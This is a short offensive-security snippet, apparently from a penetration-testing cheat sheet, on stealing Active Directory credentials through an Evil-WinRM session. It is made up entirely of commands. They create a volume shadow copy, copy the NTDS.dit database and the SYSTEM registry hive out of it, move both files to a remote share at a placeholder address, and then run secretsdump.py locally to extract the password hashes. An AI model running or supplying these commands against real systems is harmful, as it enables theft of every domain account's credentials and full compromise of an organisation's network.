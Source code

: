 From Evil-WinRM

```bash
vssadmin CREATE SHADOW /For=C:

cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\windows\tasks\NTDS.dit

cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\windows\tasks\system.save

move NTDS.dit \\x.x.x.x\share
move system.save \\x.x.x.x\share
```

On local attacking system:

```bash
secretsdump.py -ntds NTDS.dit -system system.save LOCAL
```
